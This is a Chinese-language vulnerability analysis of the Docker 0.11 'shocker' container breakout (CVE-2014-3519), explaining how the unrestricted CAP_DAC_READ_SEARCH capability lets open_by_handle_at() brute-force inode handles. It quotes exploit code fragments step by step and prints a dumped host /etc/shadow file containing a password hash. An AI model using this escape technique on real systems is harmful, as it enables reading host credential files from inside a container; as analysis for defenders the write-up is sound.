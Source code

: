 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过

##组件介绍：
docker是一个开源的容器引擎，它对LXC进一步的封装，达到操作系统层面上的虚拟化

##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前的版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。  
有关CAP_DAC_READ_SEARCH请查阅[capabilities的文档](http://man7.org/linux/man-pages/man7/capabilities.7.html)  

关于CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如上可知open_by_handle_at函数可以读取任意文件和文件夹

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中的文件或者目录的文件描述符
- file_handle 描述一个文件或者目录
- flags   The flags argument is as for open(2).

[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下:   


     struct file_handle {
          unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
          int           handle_type;    /* Handle type [out] */
           unsigned char f_handle[0];    /* File identifier (sized by
                                                    caller) [out] */
        };
    

file_handle结构中f_handle[0]为8位inode号，在大多数的文件系统中，根目录的inode号为2，这样，攻击者可以通过打开根目录比较目录名和文件，遍历inode号达到查看任意文件的目的

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开随意文件，获得文件描述符

    //打开宿主机器上的随意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程，涉及到：
查找目录：

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
这个过程找到/etc目录，得到/etc的inode号

暴力试验inode数字，找到文件：

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：  
docker version 版本 <=0.11 均存在漏洞  
[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证

##影响版本：
docker版本 <=0.11 均存在漏洞

##相同漏洞：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##参考链接：
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek